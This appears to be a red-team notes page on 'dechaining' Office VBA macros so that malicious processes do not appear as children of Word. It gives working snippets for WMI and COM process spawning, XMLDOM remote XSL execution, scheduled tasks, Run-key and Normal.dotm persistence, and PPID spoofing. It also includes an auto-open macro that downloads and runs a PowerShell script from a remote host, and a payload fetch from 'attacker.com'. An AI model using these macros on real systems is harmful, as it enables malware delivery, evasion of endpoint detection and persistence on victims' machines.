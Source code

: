 # ⭕ Dechaining Macros

#### Looking at the Parent/Child processes is a good indicator of malicious activity, for example MSWord spawning PowerShell is pretty suspicious. Here, we will show some techniques that can be used to evade these types of analysis.

## <mark style="color:red;">WMI</mark> <a href="#wmi" id="wmi"></a>

```vba
Sub MyMacro()
    Arg = "cmd /k calc.exe"
    GetObject("winmgmts:").Get("Win32_Process").Create Arg, Null, Null, pid
End Sub
```

```vba
// Some codeSet objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2")
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
Set objConfig = objStartup.SpawnInstance_
Set objProcess = GetObject("winmgmts:root\cimv2:Win32_Process")
errReturn = objProcess.Create("cmd.exe /k calc.exe", Null, objConfig, intProcessID)
```

This will make your process be spawned under "wmiprvse.exe."

#### example macro:

```vba
Sub MyMacro
    strArg = "powershell -exec bypass -nop -c iex((new-object
    system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"
    GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
    End Sub
Sub AutoOpen()
    Mymacro
End Sub
```

## <mark style="color:red;">ShellBrowserWindow</mark> <a href="#shellbrowserwindow" id="shellbrowserwindow"></a>

```powershell
Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
obj.Document.Application.ShellExecute "calc",Null,"C:\\Windows\\System32",Null,0
```

This will make your process spawn from under "explorer.exe"

## <mark style="color:red;">XMLDOM</mark> <a href="#xmldom" id="xmldom"></a>

```vba
Set xml = CreateObject("Microsoft.XMLDOM")
xml.async = False
Set xsl = xml
xsl.load("http://attacker.com/payload.xsl")
xml.transformNode xsl
```

## <mark style="color:red;">Scheduled Tasks</mark> <a href="#3e76" id="3e76"></a>

```vba
Set service = CreateObject("Schedule.Service")
Call service.Connect
Dim td: Set td = service.NewTask(0)
td.RegistrationInfo.Author = "Microsoft Corporation"
td.settings.StartWhenAvailable = True
td.settings.Hidden = False
Dim triggers: Set triggers = td.triggers
Dim trigger: Set trigger = triggers.Create(1)
Dim startTime: ts = DateAdd("s", 30, Now)
startTime = Year(ts) & "-" & Right(Month(ts), 2) & "-" & Right(Day(ts), 2) & "T" & Right(Hour(ts), 2) & ":" & Right(Minute(ts), 2) & ":" & Right(Second(ts), 2)
trigger.StartBoundary = startTime
trigger.ID = "TimeTriggerId"
Dim Action: Set Action = td.Actions.Create(0)
Action.Path = "C:\Windows\System32\notepad.exe"
Call service.GetFolder("\").RegisterTaskDefinition("UpdateTask", td, 6, , , 3)
```

## <mark style="color:red;">Registry Keys</mark> <a href="#registry-keys" id="registry-keys"></a>

We can modify the registry which can serve as persistence and a way of executing your code.&#x20;

#### WMI:

```vba
Set objRegistry = GetObject("winmgmts:\\.\root\default:StdRegProv")
objRegistry.SetStringValue &H80000001, "Software\Microsoft\Windows\CurrentVersion\Run", "key1", "value1"
```

#### Wscript:

```vba
Set WshShell = CreateObject("WScript.Shell")
WshShell.regwrite "HKCU\Software\Microsoft\Windows\CurrentVersion\Run\key2", "value2", "REG_SZ
```

## <mark style="color:red;">PPID Spoofing & Command Line Spoofing</mark>&#x20;

Basically we can spoof the parent by passing an arbitrary parent process name you want to use with the CreateProcessA function. We can also spoof the command line arguments by modifying the “CommandLine” in the RTL\_USER\_PROCESS\_PARAMETERS structure in the PEB.

&#x20;The implementation in VBA is here:

{% embed url="https://github.com/christophetd/spoofing-office-macro/blob/master/macro64.vba" %}

## <mark style="color:red;">Injecting Shellcode</mark> <a href="#injecting-shellcode" id="injecting-shellcode"></a>

Injecting our shellcode to a remote process can make our payload live in another process, although this is not a parent-child evasion technique, we can make our payload live in a remote process.

#### see [injectors/runners](runners-injectors-loaders.md) section.

## <mark style="color:red;">Template persistence</mark>

```vba
Set objShell = CreateObject("Wscript.Shell")
appDataLocation = objShell.ExpandEnvironmentStrings("%APPDATA%")
Path = appDataLocation & "\Microsoft\Templates"
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objFile = objFSO.CreateTextFile(Path & "\Normal.dotm", True)
objFile.Write payload
objFile.Close
```

## <mark style="color:red;">Outlook</mark> <a href="#outlook" id="outlook"></a>

```vba
Set obj = GetObject("new:0006F03A-0000-0000-C000-000000000046")
obj.CreateObject("WScript.Shell").Run ("calc.exe")
```
